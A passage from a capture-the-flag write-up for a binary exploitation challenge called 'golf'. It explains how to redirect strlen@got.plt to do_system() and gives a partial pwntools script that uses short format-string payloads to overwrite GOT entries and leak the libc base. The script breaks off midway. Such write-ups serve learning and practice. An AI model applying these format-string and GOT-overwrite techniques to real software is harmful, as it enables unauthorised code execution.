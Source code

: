 However if you look at the address in **strlen@got.plt** and the address in **system**, we notice that they differ by 3 bytes which is unfeasible for us to write to.

![iamge](attachments/pwn/golf/strlengot.png)

However if we look inside system,

![image](attachments/pwn/golf/do_system.png)

We notice that it calls **do_system()** internally which ends with **0xd0**, just like strlen.

The two of them only differ by 2 bytes and it is totally possible for us to overwrite **strlen@got.plt** with **do_system()** which is pretty much just the internal call for system.

With that we can craft our full exploit script.

### Final Exploit Script

```python

from pwn import *
import re

libc = ELF('./libc.so.6')
context.binary = elf = ELF('./golf')
p = process('./golf')

payload = b'%*8$c' + b'%9$n'
assert len(payload) <= 10 # ensure format string does not exceed 10 characters

payload += b'\x00' * (16-len(payload)) # pad payload so format specifiers are pointed correctly
payload += p64(0x40121f) # main address
payload += p64(elf.got.exit) # exit

p.sendline(payload)

p.sendline("%77$p")
leak = int(re.findall(b'(0x\w+)', p.recvline())[0], 16) 
libc.address = leak - 243 - libc.sym.__libc_start_main

info(f"libc base @ {libc.address:#x}")

payload = b'%*8$c' + b'%9$hn'
assert len(payload) <= 10
payload += b'\x00' * (16-len(payload))
```